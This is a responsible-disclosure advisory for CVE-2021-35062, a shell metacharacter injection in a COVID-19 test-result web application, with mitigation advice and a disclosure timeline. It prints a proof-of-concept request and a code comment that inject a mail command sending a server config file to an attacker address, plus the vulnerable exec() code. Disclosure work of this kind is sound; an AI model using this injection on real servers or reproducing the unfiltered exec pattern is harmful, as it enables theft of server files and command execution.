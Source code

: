 # CVE-2021-35062

## Vulnerability information
A **Shell Metacharacter Injection** vulnerability in result.php in DRK Odenwaldkreis Testerfassung March-2021 allow an attacker with a valid token of a COVID-19 test 
result to execute shell commands with the permissions of the web server

## Vulnerability description
Shell Metacharcters (“;”, “&&”, “||”, and so on) can be injected when an attacker has a valid Covid-19 Test result. The code can be for example the Unix mail command, 
which can be used to send files on the web server to the attackers email address. The vulnerability have been demonstrated and have been confirmed by the developers 
in code version March-2021. DRK Odenwaldkreis and developers were contacted, vulnerability was reported, confirmed and fixed in latest software release.

## Mitigation
Mitigation can be accomplished by filtering input with PHP function **escapeshellarg()** and **escapeshellcmd()**

## Technical Description
Injection of UNIX mail command to demonstrate the ability to send a mail containing a file to the attackers email.
    
    result.php?TOKEN=1234567890;mail attacker@example.com < /path/to/file/config.cfg

The **$_POST** and **$_GET** variables passed from HTML forms should be passed to an **input 
filtering** function which checks for allowed characters, cast the type of the variable (integer, float, 
string) and use **escapeshellarg()** and **escapeshellcmd()**

    /**
     * Input from $_POST (or $_GET) is not filtered.
     *
     * Mitigation: Input filtering, Allow list, deny of manipulated input,
     * PHP escape function escapeshellarg() and escapeshellcmd().
     *
     * PHP exec() function can execute:
     * job.py 1234567890;mail attacker@example.com < /path/to/file/config.cfg
     */
    $job="python3 job.py $token";
    exec($job,$script_output);

## Disclosure timeline

* 2021-05-31 Contacted DRK Odenwaldkreis by phone to report Multiple Cross Site Scripting vulnerabilities
* 2021-05-31 Contacted by developers by phone, send report and analysis to developers
* 2021-06-02 Reviewed parts of source code and performed tests like directory listing, added additional findings and informed developers
* 2021-06-06 Reported Shell Metacharacter Injection vulnerability and send proof of concept
* 2021-06-11 Asked Hessen Cyber Competence Center for consultation for responsible disclosure process
* 2021-06-12 Explained in detail proof of concept of Shell Metacharacter Injection. Attacker requires a valid test token, possible to execute code
* 2021-06-18 Tested again for XSS in web applications form fields, XSS still present. Contacted developers and informed that XSS vulnerability is not fixed
* 2021-06-18 Requested to reserve two CVE at mitre.org. CVE-2021-35061 and CVE-2021-35062 were reserved
* 2021-08-30 Publication of CVE after 90 days (similar to Google Project Zero disclosure timeline)

